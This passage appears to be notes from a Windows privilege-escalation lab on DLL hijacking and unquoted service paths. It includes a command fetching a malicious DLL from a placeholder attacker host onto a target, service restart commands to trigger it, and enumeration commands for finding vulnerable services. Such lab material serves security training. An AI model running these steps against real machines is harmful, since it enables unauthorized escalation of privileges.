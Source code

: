 install it by
```bash
sudo apt install gcc-mingw-w64-x86-64
```

You can use the following PowerShell command to download the .dll file to the target system:
```bash
wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll
```

We will have to stop and start the dllsvc service again using the command below:
```bash
sc stop dllsvc & sc start dllsvc
```
-----------------------------------------------------

**Unquoted Service Path**

```bash
sc qc netlogon
```

In the example above, when the service is launched, Windows follows a search order similar to what we have seen in the previous task. Imagine now we have a service (e.g. srvc) which has a binary path set to C:\Program Files\topservice folder\subservice subfolder\srvc.exe

To the human eye, this path would be merely different than "C:\Program Files\topservice folder\subservice subfolder\srvc.exe".

Windows approaches the matter slightly differently.

However, if the path is not written between quotes and if any folder name in the path has a space in its name, things may get complicated. Windows will append ".exe" and start looking for an executable, starting with the shortest possible path.


In our example, this would be C:\Program.exe. If program.exe is not available, the second attempt will be to run topservice.exe under C:\Program Files\.

----------------------------------------------------------

**Finding Unquoted Service Path Vulnerabilities**

Tools like winPEAS and PowerUp.ps1 will usually detect unquoted service paths. But we will need to make sure other requirements to exploit the vulnerability are filled. These are;

1.  Being able to write to a folder on the path
2.  Being able to restart the service

```bash
wmic service get name,displayname,pathname,startmode
```

Once we have located this service, we will have to make sure other conditions to exploit this vulnerability are met.

You can further check the binary path of this service using the command below: 

```bash
sc qc unquotedsvc
```
